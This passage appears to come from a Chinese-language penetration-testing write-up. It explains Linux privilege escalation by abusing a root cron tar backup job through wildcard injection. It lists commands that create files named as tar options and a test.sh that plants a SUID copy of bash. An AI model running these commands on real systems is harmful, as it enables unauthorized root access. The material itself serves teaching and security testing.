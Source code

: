 ### 2.2.4. 提权操作

关于这个提权，web权限账户基本上不太可能能进行提权，同时普通用户若管理员设置备份的文件夹未给写入权，那么也GG，但是多数应该不太会出现这个情况，不过也不保证会排查。

#### 2.2.4.1. 切换普通用户

这里切换到普通用户，然后查看到存在root创建的定时任务，那么就可以利用这个定时任务进行提权，同时我们需要查看刚刚创建的执行脚本，对里面的内容进行分析，然后再去执行提权。

![image-20230404134355413](assets/6cAjg1GaiJZEI2x.png)

#### 2.2.4.2. 执行命令

由于备份的时候是备份123目录下的文件，那么我们执行的命令就需要再123命令下进行操作。

定时任务打包时使用了*将整个文件夹下的文件打包，而当系统真正执行打包操作时，会将目录下的所有文件名一个一个传参给*执行打包操作。前几个文件都没问题，但是当打包到--checkpoint=1文件和--checkpoint-action=exec=sh test.sh文件时，执行的相当于执行：

```
tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh test.sh
```

而  --checkpoint、--checkpoint-action正好是tar命令的参数，打包到这里就会导致tar命令直接把--checkpoint=1和--checkpoint-action=exec=sh test.sh两个文件名当做参数执行，而不打包文件。--checkpoint-action=exec=sh  test.sh参数的意思是执行同目录下test.sh文件，test.sh文件内容又是把  bin/bash拷贝给/tmp/bash并给/tmp/bash赋SUID权限。此时我们再执行/tmp/bash就享有了suid权限，所以这里是一环套一环的。

```
echo "" > --checkpoint=1   
echo "" > "--checkpoint-action=exec=sh test.sh"   ##执行test.sh文件
echo 'cp /bin/bash /tmp/bash;chmod +s /tmp/bash' > test.sh  ##将/bin/bash复制到/tmp下，并提权SUID权限，同时将命令写入到test.sh脚本中
chmod +x test.sh  ##赋予执行权限
```

![image-20230404134737250](assets/4CjU3rVRnZDLQeG.png)
